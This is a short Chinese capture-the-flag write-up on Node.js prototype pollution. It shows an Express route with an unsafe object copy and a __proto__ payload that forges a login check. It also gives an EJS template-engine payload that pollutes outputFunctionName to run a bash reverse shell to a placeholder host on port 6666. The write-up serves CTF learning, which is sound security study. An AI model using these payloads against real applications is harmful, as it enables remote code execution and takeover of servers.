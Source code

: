 ```js
```

数组绕过?a[]=1&b[]=1

# 368-原型链污染
```js
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow==='36dboy'){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  }
});
```

前面有一个copy函数，可以与链接文章里面的merge函数类比

污染 user 让secert.ctfshow为36dboy

Payload：
```
{"username":"1","password":"1","__proto__":{"ctfshow":"36dboy"}}
```

# 339
这里让输入flag所以没法直接利用了

![](https://img-blog.csdnimg.cn/f501b322306f4f748f837500092f6433.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

## 非预期
ejs rce

![](https://img-blog.csdnimg.cn/0213ae95e0d44608aef4934bec224708.png#pic_center)

Ejs引擎可以rce ，具体过程参考上面链接

Payload：
```
{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/xxx/6666 0>&1\"');var __tmp2"}}
```
先污染一下 `outputFunctionName`

![](https://img-blog.csdnimg.cn/3d8531860ee9446984950bb6bd55477b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
